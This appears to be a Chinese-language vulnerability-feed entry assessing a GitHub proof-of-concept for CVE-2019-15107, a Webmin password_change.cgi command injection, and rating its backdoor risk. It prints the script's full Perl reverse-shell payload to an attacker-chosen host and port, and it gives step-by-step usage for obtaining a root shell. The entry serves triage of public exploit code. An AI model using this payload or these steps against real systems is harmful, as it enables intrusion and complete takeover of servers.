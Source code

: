 ## CVE-2019-15107 Webmin password_change.cgi 命令注入

**漏洞编号:** CVE-2019-15107

**漏洞类型:** 命令注入

**影响应用:** Webmin

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** <= 1.920

**利用条件:** 目标主机运行存在漏洞的Webmin版本，且password_change.cgi可访问

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2019-15107是一个存在于Webmin <=1.920的命令注入漏洞。具体来说，`/password_change.cgi` 脚本中的 `old` 参数存在漏洞，攻击者可以通过构造恶意的 `old` 参数来执行任意系统命令。由于Webmin通常以root权限运行，成功利用此漏洞可能导致完全控制受影响的系统。

**有效性分析：**

根据漏洞信息、搜索结果和提供的漏洞利用代码，可以判断此POC代码是有效的。漏洞库信息明确指出该漏洞存在于 Webmin <= 1.920 的 `/password_change.cgi` 中。搜索引擎结果中也包含多个验证了该漏洞的页面，如 Rapid7 的漏洞描述和 Tenable 的漏洞利用模块可用性报告。提供的 Python 脚本 `webmin_rce.py` 实现了漏洞利用过程，包括版本检测和特定版本 Payload 的构造。

**投毒风险分析：**

对提供的 Python 脚本 `webmin_rce.py` 进行了分析。代码的主要功能是利用 Webmin 的命令注入漏洞，并未发现明显的恶意代码，例如删除系统文件、安装恶意软件等。但是，任何远程代码执行漏洞都有可能被利用于恶意目的。因此，脚本本身虽然没有明显的投毒代码，但使用该脚本对目标系统进行渗透测试或攻击可能带来潜在的风险。脚本的README文档中描述了使用方法。

对shell_payload进行分析，此payload主要作用是反弹shell，如果被替换成其他的payload可能会造成投毒风险。

脚本中使用的反弹shell payload为：
```perl
perl -e 'use Socket;$i="{lhost}";$p={lport};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

脚本中存在通过 `-l` 和 `-p` 参数自定义 LHOST 和 LPORT 的功能，这使得攻击者可以灵活地指定反弹 shell 的目标地址。如果作者将shell_payload替换成恶意payload,将会存在恶意投毒风险.

综合考虑，将投毒风险评定为10%。

**利用方式：**

1.  **确定目标 Webmin 版本：**  通过访问 `/password_change.cgi` 并观察响应，或者通过其他方式确定目标 Webmin 的版本。
2.  **构造恶意请求：**  根据 Webmin 的版本，构造包含恶意命令的 HTTP POST 请求，将命令注入到 `old` 参数中。
3.  **发送请求：**  将构造好的请求发送到 `/password_change.cgi`。
4.  **执行命令：**  Webmin 执行注入的命令。
5.  **获取权限：**  如果命令执行成功，攻击者可以获得对目标系统的控制权，例如通过反弹 shell。

**脚本 `webmin_rce.py` 的利用步骤：**

1.  使用 `python3 webmin_rce.py -t <target_url> -l <lhost> -p <lport>` 命令运行脚本，替换 `<target_url>` 为目标 Webmin 的 URL，`<lhost>` 为攻击者监听的 IP 地址，`<lport>` 为攻击者监听的端口。
2.  脚本会自动检测 Webmin 版本并构造相应的 payload。
3.  如果漏洞存在且利用成功，攻击者将在监听端口上获得一个 root shell。

**项目地址:** [MasterCode112/CVE-2019-15107](https://github.com/MasterCode112/CVE-2019-15107)

**漏洞详情:** [CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107)